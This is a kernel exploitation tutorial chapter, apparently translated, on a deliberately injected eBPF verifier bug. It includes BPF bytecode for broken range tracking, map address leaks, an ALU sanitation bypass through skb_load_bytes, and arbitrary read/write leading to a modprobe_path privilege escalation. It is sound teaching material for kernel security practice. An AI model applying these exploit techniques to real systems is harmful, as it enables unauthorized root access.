








In this chapter, we will attempt privilege escalation by exploiting a bug in the validator in eBPF. First,LK06 (Brahman)Please prepare the distribution file.
Check the patch
This time, in order to make eBPF vulnerable for practice, a patch has been applied that embeds a bug in the verifier.patch/verifier.diff The content is there, so let's check it out.
1 2 3 4 5
7957c7957,7958 < __mark_reg32_known(dst_reg, var32_off.value); --- > // `scalar_min_max_or` will handler the case > //__mark_reg32_known(dst_reg, var32_off.value);
scalar32_min_max_or at the beginning of the function __mark_reg32_known The function is called, but it is commented out after applying the patch. There are no other changes, so let's take a closer look at this part.
scalar32_min_max_or read
There are changesscalar32_min_max_orThe caller ofadjust_scalar_min_max_valsis. This function implements range tracking of destination registers after ALU operations such as ADD and XOR. The correction is included BPF_OR is.
first,tnum_or in the destination register with var_off is being updated. The implementation is simple: if both bits to be ORed are unknown, the destination is also unknown. Even if one bit is unknown, if the other bit is 1, the OR result will always be 1, so the corresponding bit in mask will be 0.
1 2 3 4 5 6 7 8
struct tnum tnum_or(struct tnum a, struct tnum b) { u64 v, mu;
v = a.value | b.value; mu = a.mask | b.mask; return TNUM(v, mu & ~v); }
for example (mask=0xffff0000; value=0x1001) and (mask=0xffffff00; value=0x2) When we OR, we get (mask=0xffffef00; value=0x1003) It will be.
var_off After updating the problem scalar32_min_max_or is called. The parts that have been deleted are src_known, dst_known Reached when is true.
if (src_known && dst_known) { // `scalar_min_max_or` will handler the case //__mark_reg32_known(dst_reg, var32_off.value); return; }
tnum_subreg_is_const returns true when the lower 32 bits of the register are constant. In other words, when the lower 32 bits of both registers to be ORed are constants, originally __mark_reg32_known was supposed to be called. __mark_reg32_knownis a constant var_off using s32_min_value, s32_max_value, u32_min_value, u32_max_value Update.
if (src_known && dst_known) { __mark_reg_known(dst_reg, dst_reg->var_off.value); return; }
... }
Basically scalar32_min_max_or This is the 64-bit version. Here, when both 64-bit values are constants,__mark_reg_known is called.__mark_reg_known changes the 32-bit range to a constant in addition to the 64-bit part.
/* Mark the unknown part of a register (variable offset or scalar value) as * known to have the value @imm. */ staticvoid __mark_reg_known(struct bpf_reg_state *reg, u64 imm) { /* Clear id, off, and union(map_ptr, range) */ memset(((u8 *)reg) + sizeof(reg->type), 0, offsetof(struct bpf_reg_state, var_off) - sizeof(reg->type)); ___mark_reg_known(reg, imm); }
That is, if the 64-bit registers in the OR are both constants, then scalar32_min_max_or in __mark_reg32_known Even if you don't call scalar_min_max_or The mechanism is that it becomes a constant without any problem.
So what if the upper 32 bits of a 64-bit register are not constant?scalar32_min_max_or returns immediately, but scalar_min_max_or in __mark_reg_known is not called. At this time,scalar_min_max_or Reach the next path inside.
/* We get our maximum from the var_off, and our minimum is the * maximum of the operands' minima */ dst_reg->umin_value = max(dst_reg->umin_value, umin_val); dst_reg->umax_value = dst_reg->var_off.value | dst_reg->var_off.mask; if (dst_reg->smin_value < 0 || smin_val < 0) { /* Lose signed bounds when ORing negative numbers, * ain't nobody got time for that. */ dst_reg->smin_value = S64_MIN; dst_reg->smax_value = S64_MAX; } else { /* ORing two positives gives a positive, so safe to * cast result into s64. */ dst_reg->smin_value = dst_reg->umin_value; dst_reg->smax_value = dst_reg->umax_value; } /* We may learn something more from the var_off */ __update_reg_bounds(dst_reg);
umin_value, umax_value, smin_value, smax_value After updating the __update_reg_bounds is called.
/* min signed is max(sign bit) | min(other bits) */ reg->s32_min_value = max_t(s32, reg->s32_min_value, var32_off.value | (var32_off.mask & S32_MIN)); /* max signed is min(sign bit) | max(other bits) */ reg->s32_max_value = min_t(s32, reg->s32_max_value, var32_off.value | (var32_off.mask & S32_MAX)); reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value); reg->u32_max_value = min(reg->u32_max_value, (u32)(var32_off.value | var32_off.mask)); }
__mark_reg32_known are not called, so the 32-bit min and max remain in their old state. Is it possible to use this to cause inconsistencies in the updated min and max? For simplicity, consider the unsigned case.
u32_min_value and u32_max_value The original state of the destination register is inherited. The lower 32 bits must be constant, so the original u32_min_value and u32_max_value Suppose that both have the value X. ORing this with some constant Y, the result is X|Y It will be. Then,X|Y > X When,
Like this time,min_value > max_value Once this condition is established, there are several ways to exploit it. First, let's use it for map address leaks. eBPF allows addition and subtraction of scalar values to pointers. Updating offsets in pointer and scalar value operations isadjust_ptr_min_max_valshas been implemented.
if ((known && (smin_val != smax_val || umin_val != umax_val)) || smin_val > smax_val || umin_val > umax_val) { /* Taint dst register if offset had invalid bounds derived from * e.g. dead branches. */ __mark_reg_unknown(env, dst_reg); return0; }
...
Reading the above code, in cases where tracking on the scalar value side is broken like this time, the operation result is __mark_reg_unknown The value is set to unknown. That is, when you add a register and a pointer that have broken tracking, the result is treated as a scalar value. Scalar values can be written to the BPF map, so address leaks are possible. Let's get started right away map_lookup_elem Let's leak the BPF map pointer obtained in . Just now s32_min_value I broke the guesses such as, but in the above code,smin_val etc. 64-bit registers must be corrupted. To extend a 32-bit value to a 64-bit value, just like on x86-64, use BPF_MOV32_REG You can copy it to a 32-bit register using
// Save the pointer as a scalar value BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_0, -0x10), BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd), BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08), BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10), BPF_MOV64_IMM(BPF_REG_ARG4, 0), // flag BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem
It is a success if the BPF map address can be leaked as shown below. Note that since R1 contained 1, the addition caused the address to be off by 1 compared to the actual address.

If you look at this address, you will see that it correctly contains the first element of the array (leaked data).

Subtracting 0x110 is the beginning of the BPF map containing metadata. This time I am creating it in array format, sobpf_array structureexists. For example, the value 0xffffffff81c124a0 at the beginning isbpf_map structureof ops This is the function table. Although we will not use it this time, this is used in the eBPF attack.ops There is also a method to elevate privileges by rewriting .
This method is adjust_ptr_min_max_vals You won't realize it unless you know the code, but you can actually write an exploit without using this. (See example)
Having the address of the map will make future kASLR leaks easier, so be sure to keep it. The code will be cleaner if you convert it into a function so that when you pass the fd of the map, it returns the address (minus 1 at the end).
Pointer leaks are allowed by default with root privileges, so when debugging eBPF exploits, be sure to check the operation with general user privileges.
out of range reference
previous chapterHowever, as I mentioned briefly, as of 2022, there is a mitigation mechanism called ALU sanitation, so it is no longer possible to simply refer out of range as in the past. But first let's try a "simple" out-of-bounds reference. Actually, ALU sanitation isbpf_bypass_spec_v1When the function returns true,skipwill be done. This function returns true with root privileges, so you can still try out-of-scope references with root privileges. So, first let's try a "simple" out-of-scope reference with root privileges.
Creating constants with broken tracking
A useful way to exploit the verifier's error is to create a constant that the verifier thinks is X, but is actually Y (XX!=Y). In particular, when X=0,Y!=0, the verifier will judge it as 0 no matter what you multiply, so it is convenient for creating offsets for out-of-range references. First, let's create a "constant that the verifier thinks is 0, but is actually 1."
Now R1 is u32_min_value is 1 u32_max_value is now 0. On the contrary, to R2 u32_min_value is 0 u32_max_value Enter a value where is 1 (not broken). Now considering the addition of R1 and R2, the range is [1,0]+[0,1]=[1,1] You can see that it will be.
Registers with the same minimum and maximum values are treated as constants at times such as MOV. The actual value of R1 was 1, but R2 can take either 0 or 1. Therefore, the addition result is [1,2] must be. However, since the verifier judges R1 after addition to be a constant 1, a situation arises where it actually contains 2. Then, by subtracting 1 from R1, we can create the desired ``constant that the verifier thinks is 0, but is actually 1''.
u32_min_value is 0 u32_max_value R2, where is 1, can be created by combining logical and arithmetic operations, or by discarding cases greater than 1 with a conditional branch.
// Check the actual value of R1 BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_1, -0x10), BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd), BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08), BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10), BPF_MOV64_IMM(BPF_REG_ARG4, 0), // flag BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem
BPF_MOV64_IMM(BPF_REG_0, 0), BPF_EXIT_INSN(), };
If you check the map (actual value of R1) after running this program, you will see that it is 1. On the other hand, the verifier assumes that R1 contains 0 at the end of the 22nd instruction.

Check for out-of-scope references
With the code above, we were able to create a register that actually holds 1 even though the trace result is a constant 0. Multiplying this register by an appropriate number and adding it to the map's pointer results in a valid out-of-bounds pointer.
Let's try it out. The following BPF program multiplies the corrupted register by 0x100, creating a "guessed value = 0 / actual value = 0x100" situation, and uses it to move out of the range of the map.BPF_LDX_MEM I'm reading it.
This programwith root privilegesWhen you run it, you'll see that a value you don't remember setting is being read, as shown below.

If you actually check with gdb, leaked data exists at 0x100 from the map address.

Furthermore, when passing the constant 0x100 in MOV, the verifier detects an out-of-bounds reference, which indicates that an out-of-bounds reference is caused by a vulnerability.
However, if you run the same program with general user privileges, ALU sanitation converts out-of-range references due to addition to addition of 0, so no data can be leaked as shown below. (The fact that the value 1 that was entered from the beginning is taken out shows that the addition is meaningless due to ALU sanitation.)

In the era when ALU sanitation did not exist, the mainstream attack was to use this method to read and write ops etc. of the bpf_map structure.
Avoiding ALU sanitation
Fortunately, there is a way to avoid ALU sanitation in kernel v5.18.14, which is the target of this article. The idea is that additions and subtractions to pointers (that go out of range) will be patched, so the idea is to have an existing helper function handle that processing.
There are few helper functions available to general users, but let's look at functions that take offset and size as arguments. Then, in the socket filter, for exampleskb_load_bytesYou can use the function.
This function can copy the contents of the packet to the BPF side (map or stack). Specify the first argument as the context, the second argument as the offset of the packet data you want to copy, the third argument as the buffer to copy, and the fourth argument as the size to copy. Since the copy source is packet data,write The data sent to the socket will be copied. This function is called to determine if the argument is out of range, but is not affected by ALU sanitation. Therefore, it is possible to copy data out of scope within a function.
Let's try it out. Currently, the data size of the BPF map is 8, so if you can copy 8 bytes or more, it is a success. As a test, create a register that the verifier judges as 1 and the actual value is 0x10.write Send data of 0x10 bytes or more and check with gdb whether it is copied to the map. (Please note that if you pass 0 (or a value that is inferred) as the size, the verifier will warn you)
In the above program, for the 0th element of the BPF map (stored at the first obtained address R9)skb_load_bytes Write the packet data with . It actually writes 0x10 bytes, but the verifier guesses it as 1 byte, so it is allowed. When calling the program, let's send 0x10 bytes of data as follows.
If you check the map address with gdb after execution, you will see that the current data size of 8 bytes was exceeded and out-of-range writing was possible, as shown in the figure below.

Since out-of-bounds writing on the heap has been achieved, you can now exploit it in any way you like. For example, if you put two BPF maps side by side,ops Possible methods include rewriting . However, this time, let's take advantage of the features of BPF to realize AAR/AAW.
Creation of AAR/AAW
Recall that pointers can be written to the BPF stack. Data stored on the stack is tracked by type and range. therefore,skb_load_bytes out of bounds on the stack using[2]Writing allows you to overwrite the pointer saved on the stack with packet data. Even after being overwritten, the validator still recognizes it as a pointer, so it can read and write bogus pointers.
This can be expressed in a diagram as shown below.

The data in FP-0x18 that was last rewritten is marked as a pointer, so BPF_LDX_MEM If you retrieve it with , you can use it as a pointer. In this way, you can easily create AAR/AAW by taking advantage of the features of BPF.
// Overwrite the pointer on the stack prepared with (*) (avoiding ALU sanitation) BPF_MOV64_IMM(BPF_REG_ARG2, 0), // arg2=offset (0) BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // arg3=to (FP-0x20) BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x20), BPF_MOV64_REG(BPF_REG_ARG4, BPF_REG_1), // arg4=len (1/0x10) BPF_MOV64_REG(BPF_REG_ARG1, BPF_REG_8), // arg1=skb BPF_EMIT_CALL(BPF_FUNC_skb_load_bytes),
// Get the rewritten (*) pointer BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_FP, -0x18),
// Can read and write from any address BPF_MOV64_IMM(BPF_REG_1, value >> 32), BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32), BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, value & 0xffffffff), BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_1, 0), // write to fake pointer
Now that we have the map address, we can create a fake pointer to the ops table in bpf_map and leak the kernel base address. Once the base address is known, AAW can be used to rewrite modprobe_path and escalate privileges. Complete the exploit yourself. An example exploit is available here.
In this bug min_value > max_value Because the situation was created,adjust_ptr_min_max_vals was exploited to leak the address of the BPF map. (1) Complete the exploit without leaking the BPF map, BPF stack, or context address. (2) Furthermore,skb_load_bytes Complete the exploit (without using the BPF stack) using a heap overflow.